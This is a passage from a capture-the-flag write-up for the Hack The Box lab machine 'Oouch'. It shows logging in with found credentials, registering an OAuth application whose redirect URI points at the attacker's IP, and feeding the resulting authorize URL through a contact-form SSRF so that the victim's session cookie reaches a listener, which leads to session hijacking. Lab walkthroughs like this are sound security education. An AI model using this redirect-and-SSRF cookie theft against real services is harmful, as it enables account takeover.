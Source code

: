 There is also a mention about ssh keys on `todo.txt` so this might be a hint that we need to get an ssh key in order to login and read the user flag.

With this in mind we will go and try find this `application` feature that he mentions.

### Creating the application

We run a recursive directory search on `http://authorization.oouch.htb:8000/` and find `/oauth/applications/register`

Visiting this we find a login poppup page that asks for credentials, we use `develop:supermegasecureklarabubu123!` that we found earlier.

![img-9](https://i.ibb.co/dfLX6ZX/entering-creds-for-the-app.png)

After loggging in we are greeted by a page that allows us to create a new application.

It automatically gives us the `client id` and `client secret` so we dont have to worry about those.

I fill out the following details:

![img-10](https://i.ibb.co/ykNZJ3R/app-register.png)

Make sure to add your own ip as the `Redirect Uris`

We note down all the details and put together our own url from which we will try to trigger a connection to our box.

IT ends up being like this:

```bash
http://authorization.oouch.htb:8000/oauth/authorize/?client_id=7QQhqqzMpDxUgOyQvKhf1mT97MZjReuBFejHdQUN&redirect_uri=http://10.10.14.2:4444&grant_type=authorization_code
&client_secret=sJ293VS4FasXqzB92gekNeIFR9ncGYCDadO38geM1hBvaNvay26J9Wsl7is03s8No2Sc1jhTYbzQi4Y6hWdaLBdCdDmWmnyPY4CCSEdorob5NYPDWhGzHGf9IVMmCQP2
```

We setup a listener and and visit this url in the search bar.

We get a connecion back on our listener.

![img-11](https://i.ibb.co/Bqf9spM/listener-to-prove-connection.png)

Now we will try to get the cookies.

We paste this url into the ssrf section on the contact page like before and reset our listener.

We now got a connection on our listener showing us the `sessionid`!

![img-12](https://i.ibb.co/m6Wy08T/listener-to-steal-cookie.png)

We then use a cookie editor to change the `sessionid` to the value that we just got then refresh the page and now we are logged in as `qtc`.

![img-13](https://i.ibb.co/prbLXNV/logon-details-after-cookie.png)

### POST request to get ssh keys
